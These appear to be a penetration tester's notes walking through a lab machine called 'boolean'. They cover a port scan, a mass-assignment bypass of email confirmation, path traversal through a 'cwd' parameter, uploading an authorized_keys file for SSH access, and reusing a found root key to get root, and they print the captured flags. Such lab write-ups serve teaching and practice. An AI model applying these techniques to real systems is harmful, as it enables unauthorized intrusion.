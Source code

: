 `---------------------Starting Full Scan------------------------`

`PORT      STATE SERVICE`
`22/tcp    open  ssh`
`80/tcp    open  http`
`33017/tcp open  unknown`

Check out port 80

![[Pasted image 20240208155728.png]]

No weak passwords on this one and no quick exploits on Google
Create an account

![[Pasted image 20240208155924.png]]

What happens if we try to login anyway
![[Pasted image 20240208160010.png]]

What if we try to change the email address 

![[Pasted image 20240208160042.png]]

If we check these requests out in Burp, one is slightly different

![[Pasted image 20240208160142.png]]

If we URL decode the method parameter from it

![[Pasted image 20240208160314.png]]
`_method=patch&authenticity_token=Zp9LBogX6hrLmSdn9W4SiZqF6uVZMVVhJMF1RjoJFPo1FTauKWME8uI13tkyHj2beomu6qIoeglbvxP_kxymqw&user[email]=testing123@testing.com&commit=Change email`

If we send this request, in the response we see a confirmation parameter.

![[Pasted image 20240208160429.png]]

I wonder if we can manipulate this. Right click the request and copy it as a curl command.
Paste it into terminal and add this (like the user[email] parameter)

![[Pasted image 20240208160628.png]]

Send it - response looks good

`HTTP/1.1 200 OK`
`X-Frame-Options: SAMEORIGIN`
`X-XSS-Protection: 1; mode=block`
`X-Content-Type-Options: nosniff`
`X-Download-Options: noopen`
`X-Permitted-Cross-Domain-Policies: none`
`Referrer-Policy: strict-origin-when-cross-origin`
`Content-Type: application/json; charset=utf-8`
`Vary: Accept`
`ETag: W/"ba3d1526cd3a164e9967c8487f86c92c"`
`Cache-Control: max-age=0, private, must-revalidate`
`Set-Cookie: _boolean_session=Z3HVENjbWmUT0B9mJ6GaHGJF3JzzlyLGGu8qA8%2Fb8yiurg%2F4mdk0gz4m%2BIDjdKpnAcPeSItl0nI2evcMbrMZp6yp9apjygEvTntHJM69H1MiTaGBGxP%2F63hBuLUhnjzi8RAqEsjgjKu1EJHxYSzw8xNTG9ol%2BSgFhQMKAxfygYV25tH58YMgrt7ZRxpqu5AV%2BEEz07pWl9KEnjS7PeNvY4fivS8Jj1uMiYTCXTuTliL92oxEig3chUq2Nu%2BCQKm4h6NSccsBt4Pv8Q9GJaTvkpaKwILnL%2BkPJnRyw2Y9Mv8Do1hjInCYtg%3D%3D--ug2FlXnJAY%2BO%2B2VG--cRdor8E61B6VWU4lcBomhQ%3D%3D; path=/; HttpOnly; SameSite=Lax`
`X-Request-Id: fb6d70ba-e641-4556-8cfc-c78276d3e0c2`
`X-Runtime: 0.028029`
`Connection: close`
`Transfer-Encoding: chunked`

`{"email":"testing123@testing.com","confirmed":true,"id":2,"username":"testing","created_at":"2024-02-08T20:58:54.361Z","updated_at":"2024-02-08T21:08:12.085Z"}` 

Now it lets us login and get to the filemanager

If we upload a file, we can't get it to execute but we can see in the URL it has cwd for current directory. Let's try to move directories.

![[Pasted image 20240208161253.png]]

Looks like this is working. Go to the home directory and find our user.

http://192.168.190.231/?cwd=../../../../../../../../../../home

![[Pasted image 20240208161358.png]]

It lets us into this folder so the webserver is running as root or this user.
![[Pasted image 20240208161440.png]]

In the .ssh folder there is a keys folder with some SSH keys. None of them seem to work though.

Let's generate our own authorized_keys file and see if we can upload that in .ssh

![[Pasted image 20240208161545.png]]

This works and we can now ssh in as remi

![[Pasted image 20240208161706.png]]

Let's check that root private key and see if it works with the loopback address

`remi@boolean:~/.ssh/keys$ ssh -i root root@127.0.0.1`
`Received disconnect from 127.0.0.1 port 22:2: Too many authentication failures`
`Disconnected from 127.0.0.1 port 22`
`remi@boolean:~/.ssh/keys$` 

So the key might still be good but we're getting Too many authentication failures. There must be a way to fix this.

Try the IdentitiesOnly option 
`ssh -i root -o IdentitiesOnly=yes root@127.0.0.1`

This works and we get root

`remi@boolean:~/.ssh/keys$ ssh -i root -o IdentitiesOnly=yes root@127.0.0.1`
`Linux boolean 4.19.0-21-amd64 #1 SMP Debian 4.19.249-2 (2022-06-30) x86_64`

`The programs included with the Debian GNU/Linux system are free software;`
`the exact distribution terms for each program are described in the`
`individual files in /usr/share/doc/*/copyright.`

`Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent`
`permitted by applicable law.`
`root@boolean:~# cat /root/proof.txt`
`16c42fd4894d61767502b85a2be756b5`
`root@boolean:~# cd /home/`
`root@boolean:/home# ls`
`remi`
`root@boolean:/home# cd remi`
`root@boolean:/home/remi# ls`
`boolean  local.txt`
`root@boolean:/home/remi# cat local.txt`
`e07f7a23ff8007bbe95ca96969c84358`
`root@boolean:/home/remi#` 

